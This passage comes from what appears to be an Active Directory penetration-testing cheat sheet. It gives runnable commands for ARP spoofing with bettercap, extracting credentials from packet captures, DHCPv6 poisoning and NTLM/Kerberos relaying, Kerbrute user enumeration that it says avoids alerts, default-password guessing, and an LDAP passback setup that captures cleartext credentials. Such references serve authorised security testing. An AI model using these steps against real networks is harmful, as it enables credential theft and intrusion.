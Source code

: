 ```bash
sudo ./bettercap --iface <interface> --caplet spoof.cap
```

Then sniff with Wireshark. When it is finish, save the trace in a `.pcap` file and extract the secrets:

```bash
python3 ./Pcredz -f extract.pcap
```

* [Poison the DHCPv6](https://hideandsec.sh/books/cheatsheets-82c/page/active-directory#bkmrk-mitm6) answer to receive NTLM or Kerberos authentication
  * NTLM auths can be relayed with `ntlmrelayx`
  * Kerberos auths can be relayed with `krbrelayx` to HTTP endpoints (ADCS, SCCM AdminService API)
* Search for a domain account
  * Look for SMB and LDAP null bind
  * With SMB login bruteforce
  * With Kerbrute bruteforce

Allows you to bruteforce Kerberos on user accounts while indicating whether the user account exists or not. Another advantage over `smb_login` is that it doesn't correspond to the same EventId, thus bypassing potential alerts. The script can work with 2 independent lists for users and passwords, but be careful not to block accounts!

```bash
./kerbrute userenum -domain domain.local users.txt
```

Test for the Top1000 with `login = password`

Possible other passwords:

```
(empty)
password
P@ssw0rd
```

* Look for juicy [CVEs](https://hideandsec.sh/books/cheatsheets-82c/page/active-directory#bkmrk-cves)
* Search for devices like printers, routers, or similar stuff with default creds

In case a printer (or something similar) has an LDAP account, but use the `SASL` authentication family instead of `SIMPLE`, the classic LDAP passback exploitation with a `nc` server will not be sufficient to retrieve the credentials in clear text. Instead, use a custom LDAP server that only offer the weak `PLAIN` and `LOGIN` protocols. [This Docker](https://github.com/pedrojosenavasperez/ldap-passback-docker) permits to operate with weak protocols.

```bash
docker buildx build -t ldap-passback .
docker run --rm -ti -p 389:389 ldap-passback
```

In parallel, listen with tshark:

```bash
tshark -i any -f "port 389" \
  -Y "ldap.protocolOp == 0 && ldap.simple" \
  -e ldap.name -e ldap.simple -Tjson
```
